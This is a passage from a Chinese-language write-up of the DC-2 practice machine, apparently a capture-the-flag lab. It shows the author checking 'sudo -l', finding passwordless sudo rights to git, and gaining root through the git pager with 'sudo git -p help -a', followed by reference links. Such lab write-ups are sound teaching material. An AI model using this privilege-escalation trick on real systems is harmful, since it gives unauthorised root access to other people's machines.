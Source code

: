 还是先看看有没有能利用的文件，没找出线索，然后看看能执行的权限

```shell
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

这就很确定是git提权了

```
sudo git -p help -a
```

这里-p调用了more

![image-20210408230105285](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408230105285.png)

![image-20210408230152062](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408230152062.png)

## 参考

[1] [Linux Restricted Shell绕过技巧总结](https://www.freebuf.com/articles/system/188989.html)

[2] [Linux提权——Git提权](http://www.oniont.cn/index.php/archives/180.html)

